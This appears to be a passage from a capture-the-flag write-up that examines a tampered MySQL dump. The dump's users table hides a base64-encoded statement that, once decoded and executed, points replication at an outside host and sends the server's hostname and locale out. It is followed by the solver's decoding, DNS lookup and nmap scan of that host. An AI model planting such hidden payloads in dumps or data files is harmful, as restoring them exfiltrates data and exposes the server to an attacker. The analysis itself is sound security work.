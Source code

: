 
```sql
% grep -v ',' dump.sql
....
```

```sql
-
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
SET @b = 'U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7';
SET @s2 = FROM_BASE64(@b);
PREPARE stmt1 FROM @s2;
EXECUTE stmt1;
PREPARE stmt2 FROM @bb;
EXECUTE stmt2;
START REPLICA;
....
```

```bash
% echo 'U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7' | base64 -d 
SET @bb = CONCAT("CHANGE MASTER TO MASTER_PASSWORD='busybee123', MASTER_RETRY_COUNT=1, MASTER_PORT=3306, MASTER_HOST='d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf', MASTER_USER='dbuser", @@lc_time_names, @@hostname, "';");%

% nslookup d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf
Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf
Address: 1.2.3.4

 % nmap -Pn aeyie4lei1aidie7.in-scope.irisc.tf
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 21:27 EST
Nmap scan report for aeyie4lei1aidie7.in-scope.irisc.tf (35.228.27.236)
Host is up (0.13s latency).
rDNS record for 35.228.27.236: 236.27.228.35.bc.googleusercontent.com
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8080/tcp open  http-proxy                   <<<<<<   
```